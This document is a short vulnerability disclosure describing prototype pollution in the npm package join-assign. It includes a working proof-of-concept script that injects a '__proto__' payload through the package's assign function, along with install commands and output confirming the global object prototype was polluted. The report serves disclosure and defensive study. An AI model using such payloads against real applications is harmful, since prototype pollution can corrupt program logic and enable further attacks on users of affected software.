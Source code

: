 # Description

Prototype Pollution in join-assign

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const ja = require('join-assign')
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
ja.assign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i join-assign # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
